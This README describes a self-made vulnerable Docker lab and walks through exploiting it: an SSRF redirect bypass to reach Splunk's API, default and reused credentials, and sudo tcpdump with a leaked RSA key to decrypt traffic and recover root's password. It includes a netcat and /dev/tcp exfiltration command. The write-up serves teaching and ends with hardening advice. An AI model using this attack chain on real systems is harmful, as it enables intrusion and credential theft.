


# Attack-The-Box

I've played plenty of HackTheBox and it's a great way to get to know your way around different operating systems and to learn about and interact with new technologies you might not have had the chance to otherwise. I was always amazed by level of complexity and detail that goes into some of the machines so I felt the learning experience in making a vulnerable machine must be a level up entirely from playing them. As a result I made a network of a couple docker containers where a user can go from external access to root inside a container.

# Machine Summary

Running `start.sh` launches `docker-compose` to create a node app at `172.18.0.2` and a splunk instance at `172.18.0.3`. The script sets the iptables rule `iptables -A OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` which has the effect of simulating a publically exposed web app with the splunk instance in a private network. (I couldn't find a way to isolate the splunk container from the host using docker networking as the host always gets assigned as the default gateway on any docker network I defined. I did have the idea to add the node and splunk containers to a driver: none network

The web app is the SSRF app from my `Vulnerable-Web-App` repo. We can leverage the SSRF to make requests to the splunk instance even though the app backend filters out private addresses from the `webhookURL` input. If we stand up a php server and a script redirecting to the splunk container, we can reach the endpoint `172.18.0.3:8089/services/authentication/users` and have this page sent to a netcat listener at the specified `payloadURL`. From this we can see an `admin2` user.

Knowing weak credentials `admin:user` were in use, we can try an authenticate with these over `ssh` to the web app container which works. From here we could try and pivot to the `splunk` container with `ssh`, hoping for credential re-use but this doesn't work. Looking around the filesystem we can read admin's `.bash_history` which reveals a mistake in a `sudo -u` command which exposes `admin2's` password.

We find we can pivot to the splunk container with the found credentials over `ssh`.

Being a splunk admin in the container, `admin2` has sudo privileges to list and read files in `/opt/splunk`. We can use this to read configuration files which reveal an encrypted RSA private key used to encrypt traffic to the splunk management service on port 8089, as well as the `sslPassword` used to encrypt the RSA key. We can use `openssl` to decrypt the key. `admin2` also has sudo privileges to run `tcpdump` on the loopback interface- presumably for troubleshooting purposes. 

We can upload `pspy64` to find a root owned cron running each minute, called `health_check.pl`. This script sounds like it could be generating traffic so we can use tcpdump to capture packets and save it to a `pcap`. We can exfil the `pcap` to our attacking box along with the RSA private key and use `tshark` to decrypt the traffic if the key exchange isn't Diffie-Hellman based. Decrypting the traffic reveals requests to `127.0.0.1:8089/services` using basic authentication, so the username and password appear base64 encoded in the `Authorization` header. Now we have essentially cleartext root credentials on the box so we can `su -` to root!

# Speedrun

Skipping host and service enumeration (it's boring and the same every time), I'll visit the site at `172.18.0.2:5000`. Essentially it says to set a `webhookURL` and a `payloadURL`, and the server will make a request out to the `webhookURL` and send the results to the `payloadURL`. Trying any private addresses or obfuscation/encoding thereof returns a `host not allowed` message so we'll need another approach. A common trick is to get the server to reach out to you and redirect it on the desired target, bypassing any serverside filtering. This can be done in `php` with the `header()` function and the `Location:` HTTP header.

I'll make a file `re.php` and host it on my box with `php -S 0.0.0.0:8001` to start a basic `php` server serving on all interfaces at port 8001. `re.php` uses the `header()` function to pass the request into the 'private' network by specifying  `Location: whatever`. In this case, 'whatever' is the `/services/authentication/users` endpoint on the management API at port 8089. This endpoint requires authorization, but Splunk <7.1.0 allows remote login with default credentials which can be easily found to be `admin:changeme`. Further, the endpoint uses basic authorization which means the credentials are sent base64 encoded in the `Authorization:` header, alternatively, we can specify the credentials in the URL like we can do with FTP. 

Starting a netcat listener at the `host:port` shown in the first image, we receive the contents of the Splunk management API endpoint specified above. 

I copied the relevant portion to a file and prettified the output with `jq`. We can see an `admin2` user.

Doing a light password spray against known users on the web container, we find the password `changeme` has been reused for `admin`. We can simply `ssh` into the box now.

A good first place to look for creds is always `.bash_history`. In this case we see an erroneous `sudo` command which potentially exposes `admin2's` credentials. We can try pivot into the Splunk container with `ssh` and `admin2:changeme2`. Running `id` shows we're in the `sudo` group, and we know the user's password. 

Running `sudo -l`, we find we can run `tcpdump` on localhost and can list directories and read any file in `/opt/splunk`. The file `opt/splunk/etc/auth/server.pem` contains the certificate and encrypted RSA private keys generated when splunk is first installed on the machine. We may be able to use this to decrypt HTTPS traffic between clients the server.

The password used to encrypt the above RSA key is static across splunk instances however and is in cleartext in `/opt/splunk/etc/system/default/server.pem`. 

With my other `sudo` privilege, I'll run `tcpdump` for a short while to see what traffic I can capture, and send the output to `output.pcap`. I'll exfil this file by running `nc -nvlp 7777 > output.pcap` on my box and `cat output.pcap > /dev/tcp/172.18.0.1/7777` on the victim.

I'll copy the key over to my box in a file `enc.pem` and run `openssl rsa -in enc.pem -out dec.pem` which will prompt me for the `sslPassword` and write the decrypted key to `dec.pem`. Now I'll use `tshark` to try and decrypt the traffic using the plaintext RSA private key. 'Grepping' for known headers, we can spot the basic authorization header which reveals root's credentials. Run `su -` and its job done.

Finally run `sudo iptables -D OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` to delete the iptables rule set in `start.sh`.

# Hardening Strategies
- Network segmentation to prevent SSRF. Does the web app need to be able to talk to splunk? Perhaps because the app  may forward logs to the splunk deployment server on port 9097, in which case reserve a port on the web app container to send logs from and firewall off other ports. If they don't need to talk at all, could segment with VLANs.
- Configure the `node` app not to follow redirects by specifying `{ maxRedirects: 0 }` in `axios.get()`
- Use PAM to enable a strong password policy for SSH. Edit `minlength, minclass, maxrepeat` in `/etc/pam.d/common-password`.
- Disable `ssh` password authentication with the line `PubkeyAuthentication yes` in `/etc/ssh/sshd_config`.
- Better yet disable `ssh` if not needed with `sudo systemcl disable ssh`.
- Try and avoid password reuse by educating users, centralized authentication e.g. Kerberos, LDAP, or enforce MFA.
- Keep software patched and up to date. Versions of splunk >7.1.0 don't allow remote login using default credentials, and force the user to provide a new password on first local login.
- Use the principle of least privilege. Does `admin2` need to be able to read *every* file in `/opt/splunk`, do they *need* to be able to capture traffic on localhost, if yes can they make do with only certain ips/ports/protocols.
- Weak crypto. The perl script in the root cron specified a weak cipher suite `AES128-SHA256`. A DH based key exchange offers perfect forward secrecy, so knowledge of long term secrets like the server's private key isn't enough to decrypt the traffic.

Any one of the above hardening techniques has the potential to completely halt the attack flow from proceding to the next step. This is why defense in depth is such a powerful concept.
